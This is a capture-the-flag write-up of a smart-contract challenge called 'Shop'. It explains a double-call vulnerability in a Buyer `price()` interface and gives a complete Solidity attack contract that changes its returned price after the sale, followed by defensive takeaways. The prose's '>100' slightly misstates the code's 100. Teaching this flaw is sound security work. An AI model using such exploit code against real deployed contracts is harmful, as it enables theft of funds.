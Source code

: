 # Shop Challenge

**Intent:** The Shop contract is designed to sell an item at a specified price (100) using the Buyer interface to determine the buyer's price.

**Vulnerability:** The contract relies on the unimplemented `price()` function in the Buyer interface, allowing an attacker to create a malicious implementation. The contract also calls `price()` twice, enabling different return values on the first and second calls.

**Exploit:** An attacker creates a malicious contract with a custom `price()` function that returns a value >100 on the first call and <100 on the second call, bypassing the price check and purchasing the item at a lower price.

```solidity
contract ShopAttack {
    Shop private immutable target;

    uint private constant ATTACK_PRICE = 99;
    uint private constant ORIGINAL_PRICE = 100;

    constructor(address _target) {
        target = Shop(_target);
    }

    function attack() external {
        target.buy();
        require(target.price() == ATTACK_PRICE, "price != 99");
    }

    function price() external view returns (uint) {
        if (target.isSold()) {
            return ORIGINAL_PRICE - 1;
        }

        return ORIGINAL_PRICE;
    }
}
```

**Takeaways:**

1. Implement all functions in interfaces to prevent malicious implementations.
2. Avoid multiple calls to the same external function for crucial operations.

**Solutions:**

1. Implement the `price()` function within the Buyer interface.
2. Store the result of the first external function call in a variable and use that for further operations.
